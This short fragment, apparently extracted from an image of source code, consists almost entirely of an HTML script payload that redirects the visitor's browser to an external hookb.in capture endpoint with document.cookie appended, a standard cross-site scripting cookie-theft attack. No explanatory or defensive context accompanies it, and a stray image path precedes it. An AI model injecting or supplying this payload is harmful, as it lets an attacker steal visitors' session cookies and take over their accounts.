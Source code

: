     <script>
        location.replace("https://hookb.in/1ggJnrn3RRtd6NOO6eo3?q="+document.cookie);
    </script>
